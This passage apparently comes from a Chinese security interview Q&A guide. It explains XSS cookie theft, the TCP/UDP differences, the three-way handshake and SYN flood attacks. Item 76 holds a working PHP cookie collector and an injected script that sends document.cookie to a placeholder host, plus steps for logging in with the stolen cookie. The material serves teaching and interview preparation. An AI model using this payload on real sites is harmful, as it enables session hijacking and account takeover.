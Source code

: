 #### ✸ 76.xss 如何盗取 cookie ？  
攻击者代码：  </br>
<?php  $cookie=$_GET['cookie'];  </br>
$time=date('Y-m-d g:i:s');  </br>
$referer=getenv('HTTP_REFERER');  </br>
$cookietxt=fopen('cookie.txt','a');  </br>
fwrite($cookietxt,"time:".$time." cookie:".$cookie." referer:".$referer."");  </br>
//注意双引号，容易出错  </br>
fclose($cookietxt);  </br>
?>  </br>
脚本端：  
```script
<script>  
document.write('<img  
src="http://ip/cookie.php?cookie='+document.cookie+'" width=0  
height=0 border=0 />');  
</script>  
```
获取到 cookie 后，用 firebug 找到 cookie ，新建cookie加入 cookie ，用referer 来提交，无需输入帐号密码直接登录进去！  </br>

#### ✸ 77.tcp、udp 的区别及tcp 三次握手，syn 攻击？  
也可参考 </br>
http://www.cnblogs.com/bizhu/archive/2012/05/12/2497493.html  </br>
 （1 ）tcp、udp 区别  </br>
TCP 的优点：可靠，稳定  </br>
TCP 的可靠体现在 TCP 在传递数据之前，会有三次握手来建立连接，而且在数据传递时，有确认、窗口、重传、拥塞控制机制，在数据传完后，还会断开连接用来节约系统资源。  </br>
TCP 的缺点：慢，效率低，占用系统资源高，易被攻击  </br>
TCP 在传递数据之前，要先建连接，这会消耗时间，而且在数据传递时，确认机制、重传机制、拥塞控制机制等都会消耗大量的时间，而且要在每台设备上维护所有的传输连接，事实上，每个连接都会占用系统的 CPU、内存等硬件资源。 而且，因为 TCP 有确认机制、三次握手机制，这些也导致 TCP 容易被人利用，实现 DOS、DDOS、CC 等攻击。 </br> 
UDP 的优点：  快，比 TCP 稍安全  </br>
UDP 没有 TCP 的握手、确认、窗口、重传、拥塞控制等机制，UDP 是一个无状态的传输协议，所以它在传递数据时非常快。没有 TCP 的这些机制 ，UDP 较 TCP 被攻击者利用的漏洞就要少一些。但 UDP 也是无法避免攻击的，比如：UDP  Flood 攻击……  </br>
UDP 的缺点： 不可靠，不稳定  </br>
因为 UDP 没有 TCP 那些可靠的机制，在数据传递时，如果网络质量不好，就会很容易丢包。  </br>
基于上面的优缺点，那么：什么时候应该使用 TCP ：  </br>
当对网络通讯质量有要求的时候，比如：整个数据要准确无误的传递给对方，这 </br>
往往用于一些要求可靠的应用，比如 HTTP、HTTPS、FTP 等传输文件的协议， </br>
POP、SMTP 等邮件传输的协议。  </br>
在日常生活中，常见使用 TCP 协议的应用如下：  </br>
浏览器，用的 HTTP FlashFXP ，用的FTP  Outlook ，用的POP、SMTP  Putty ，用的Telnet、SSH  </br>
QQ 文件传输 </br>
什么时候应该使用 UDP ：  </br>
当对网络通讯质量要求不高的时候，要求网络通讯速度能尽量的快，这时就可以使用 UDP。比如，日常生活中，常见使用 UDP 协议的应用如下：QQ 语音  QQ 视频  TFTP </br> 
 （2 ）TCP 握手协议  </br>
在 TCP/IP 协议中，TCP 协议提供可靠的连接服务，采用三次握手建立一个连接。  </br>
第一次握手：建立连接时，客户端发送 syn 包(syn=j)到服务器，并进入SYN_SEND 状态，等待服务器确认；  </br>
第二次握手：服务器收到 syn 包，必须确认客户的 SYN （ack=j+1 ），同时自己也发送一个 SYN 包（syn=k ），即 SYN+ACK 包，此时服务器进入 SYN_RECV 状态；</br>  
第三次握手：客户端收到服务器的 SYN+ACK 包，向服务器发送确认包ACK(ack=k+1) ，此包发送完毕，客户端和服务器进入 ESTABLISHED 状态，完成三次握手。完成三次握手，客户端与服务器开始传送数据，在上述过程中，还有一些重要的概念：  </br>
未连接队列：在三次握手协议中，服务器维护一个未连接队列 ，该队列为每个客户端的 SYN 包（syn=j ）开设一个条目，该条目表明服务器已收到 SYN 包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于 Syn_RECV 状态，  </br>
当服务器收到客户的确认包时，删除该条目，服务器进入 ESTABLISHED 状态。  </br>
backlog 参数：表示未连接队列的最大容纳数目。  </br>
SYN-ACK  重传次数  服务器发送完 SYN －ACK 包，如果未收到客户确认包， </br>
服务器进行首次重传，等待一段时间仍未收到客户确认包，进行第二次重传，如果重传次数超过系统规定的最大重传次数，系统将该连接信息从半连接队列中删除。注意，每次重传等待的时间不一定相同。</br>  
半连接存活时间：是指半连接队列的条目存活的最长时间，也即服务从收到 SYN </br>
包到确认这个报文无效的最长时间，该时间值是所有重传请求包的最长等待时间总和。有时我们也称半连接存活时间为 Timeout 时间、SYN_RECV 存活时间。 </br> 
 （3 ）SYN 攻击原理  </br>
SYN 攻击属于 DOS 攻击的一种，它利用 TCP 协议缺陷，通过发送大量的半连接请求，耗费 CPU 和内存资源。 </br> 
SYN 攻击除了能影响主机外，还可以危害路由器、防火墙等网络系统，事实上SYN 攻击并不管目标是什么系统，只要这些系统打开 TCP 服务就可以实施。从上图可看到，服务器接收到连接请求（syn=j ），  将此信息加入未连接队列，并发送请求包给客户（syn=k,ack=j+1 ），此时进SYN_RECV 状态。  </br>
当服务器未收到客户端的确认包时，重发请求包，一直到超时，才将此条目从未 </br>
连接队列删除。  </br>
